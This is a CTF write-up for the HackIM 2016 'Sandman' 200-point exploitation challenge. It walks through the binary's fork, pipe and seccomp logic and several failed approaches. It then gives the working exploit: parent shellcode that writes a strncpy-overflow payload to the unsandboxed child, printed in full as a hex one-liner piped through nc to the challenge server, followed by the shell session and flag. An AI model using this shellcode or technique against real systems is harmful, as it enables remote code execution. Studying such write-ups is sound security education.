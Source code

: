 ```yaml
---
layout: post
title: HackIM 2016 CTF - Sandman Exploitation 200
category: Exploitation
tags: Exploitation asciinema RE
---
```


# HackIM 2016 CTF - Sandman 200
**Points:** 200
**Solves:** 
**Category:** Exploitation
**Description:**

> [Sandman]({{site.url}}/assets/sandman)

# Write-Up

> [*] '/Users/user/ctfs/HackIM2016/pwn200/sandman'   
>    Arch:          amd64-64-little   
>    RELRO:         Partial RELRO   
>    Stack Canary:  No canary found   
>    NX:            NX disabled   
>    PIE:           No PIE   

So a 64bit binary with all protections disabled.

## Execution flow

1 Create a pipe(pipeFD)  
2 fork()    

* What follows next is the execution flow of the parent process, the child takes a different route  

3 read(stdin, bufSize, 4)  
4 mmap(0, bufSize, 0x7, 0x22, 0xffffffff, 0x0) - the size we pass to the previous read() is the size mmap allocates with read/write/execute permissions  
5 read(stdin, newMemoryMapFromMmap, bufSize)  
6 Sandbox the parent with seccomp, the only allowed syscalls are read/write/exit  
7 Jump to the new mmap page and execute our input (I call this the parent shellcode)   

* Child execution flow  

3 call 0x0400e2b with argument the created pipe file descriptor  
4 read(stdin, localBuf, 1)  
5 call 0x400ddf(localBuf, pipeFD)   
>> Here in 0x400ddf it compares if the localBuf data we passed is == 0x0e or ( > 1 || =< 0x05 ).   
>> To reach the vulnerable code we need this to be == 0x0e   
6 call func 0x400cca  
6.1 In this function we have a call to read(stdin, localBuf, 4)  
6.2 calloc(localBuf) - Ok, we control the size of allocated heap buffer  
6.3 read(pipeFD, callocBufferOnHeap, localBuf)  
>> So, it looks like control the amount of data to be placed on the heap. The input file descriptor is the previously created pipe().  
7 Call vulnerable function 0x0400bac(callocBufferOnHeap)  
7.1 strncmp(callocBufferOnHeap, "http://", 7) - We need this compare to pass in order to continue  
7.2 dataSize = strlen(callocBufferOnHeap)  
7.3 Here at 0x0400c79 is a jump that I can't take. It takes the jump only if (callocBufferOnHeap+7) > EndOf_callocBufferOnHeap.  
7.4 size = strlen(callocBufferOnHeap+7)  
7.5 vulnerable strncpy(localBuffer, callocBufferOnHea+7, size)  

## Gameplan + few failed attempts

To exploit this the plan of action is to build a shellcode on the parent process that writes to the pipe file descriptor. The child process reads from the pipe enough data so it passes all verification checks and overwrites the saved RET in 0x0400bac.

As we control the size to be copied to the local buffer in 0x0400bac, we can just overwrite the RET. The local buffer's size is 0x230 bytes with NX disabled it should be easy right ? Yes but No, even after controlling the RET, first we can only pass a single RET address since strncpy is going to terminate on null bytes. Even after we can jump to any memory address with ASLR on we don't know which address to jump to. I can also tell you that a pointer to the Heap Buffer is in RDI but there are no gadgets to do jump/call RDI.

Another trick that I tried is to use a RET-chain by using the 8 byte address of the vsyscall table we can chain as many RETs as we want. After chaining 9 RET we reach a pointer to our BufferOnHeap+7, we just place shellcode there and viola. However, this method failed for me with SEGFAULT as soon as I tried executing the RET in the vsyscall table. A gadget that does 8 pops + ret would of worked for this method as well, but the only gadget with the closest to this stack pivot is a gadget at 0x401166, that does add rsp, 8, pop x 6, ret, with this we fall short a single pop :(, so we fail again.

And yet another fail for me was to use a gadget that does just 4 pops (or 3 I dont remember at this point) + ret since there we can find a pointer to the beginning of the BufferOnHeap. However, remember to reach the vulnerable code our buffer on the Heap needs to start with "http://" ? All is good, if "http://" converts to some garbage instructions that can easily execute and we can continue with shellcode after that. Yes but no, the 0x2f is a bad opcode, so this is not an option either :/.

# The real exploit

The way I exploited this is to leak the address of the local buffer of 0x0400bac from the parent to the child. Use that address as RET as classic RET-2-buffer exploit and execute any shellcode I want on the child where there is no sandbox. This works because fork() duplicates the entire process's memory space so the parent and child will have the same addresses. After a few calculations I decide to use RSP-0x100 from the parent as the RET address. Here is a table of how the shellcode from the parent to the child needs to look like:

{% highlight bash %}
|1byte| 4 bytes Size     | data to pass to the child                       | ret Addr      |
+-----+------------------+-------------------------------------------------+---------------+
 0x0e |\x??\x00\x00\x00  | "http://" + 0x230 bytes of nopsled + shellcode  | RSP - 0x100   |
+-----+------------------+-------------------------------------------------+---------------+
{% endhighlight %}

This payload needs to be build from the parent and written to the pipe. So basically a shellcode writting shellcode :) (Sounds like the matrix "machines building machines", right? :P ).

To do that here is my assembly shellcode that I pass to the parent.

{% highlight bash %}
4 byte size of payload | payload shellcode building shellcode | shellcode continue write builded shellcode to pipe | Infinite loop |
-----------------------+--------------------------------------+----------------------------------------------------+---------------+
\xb8\x00\x00\x00       | see screenshot of the shellcode      | see screenshot of shellcode                        | \xeb\xfe      |
-----------------------+--------------------------------------+----------------------------------------------------+---------------+
{% endhighlight %}

Yes, I added an infinite loop so the parent doesnt exit... I probably could of duplicated the socked fd and use it in the child for stdin/stdout but I didn't think too much about this since adding just 2 bytes made everything work for me.

![parent shellcode]({{site.url}}/assets/Screen Shot 2016-01-31 at 3.08.44 PM.png)

## Shellcode in action.

<script type="text/javascript" src="https://asciinema.org/a/35227.js" id="asciicast-35227" data-speed="2" async></script>

{%highlight bash %}
➜  pwn200  (python -c 'print("\xb8\x00\x00\x00\x48\x8d\x9a\x00\x10\x00\x00\x48\xbe\x0e\x60\x02\x00\x00\x68\x74\x74\x48\x89\x33\x48\xbe\x70\x3a\x2f\x2f\x90\x90\x90\x90\x48\x89\x73\x08\x48\x31\xc9\x48\xbe\x90\x90\x90\x90\x90\x90\x90\x90\x48\x83\xc3\x0c\x48\x89\x34\xCB\x48\xff\xc1\x48\x83\xf9\x41\x75\xf3\x48\xbe\x90\x48\x83\xc4\x1e\x31\xc0\x48\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xff\x48\xf7\xdb\x53\x54\x5f\x99\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x48\x89\x34\xCB\x48\xff\xc1\x48\x8d\xb4\x24\x00\xff\xff\xff\x48\x89\x34\xCB\x48\xff\xc1\x48\x31\xc0\x8b\x45\xd0\x48\x89\xc7\x48\xc7\xc0\x01\x00\x00\x00\x48\x83\xeb\x0c\x48\x89\xde\x48\xc7\xc2\x00\x10\x00\x00\x48\xff\xc7\x0f\x05\xeb\xfe")';cat) | nc -vvv 52.72.171.221 9982

Connection to 52.72.171.221 9982 port [tcp/*] succeeded!
sh: cannot set terminal process group (14781): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3$ sh-4.3$ echo *
bin dev flag-ooMeeT3iEephei1dAHighae7.txt lib lib64 sandman server.sh usr

sh-4.3$ cat flag-ooMeeT3iEephei1dAHighae7.txt
flag-{br3k1ng-b4d-s4ndm4n}
sh-4.3$

{% endhighlight %}

* Thank you for reading/watching ;)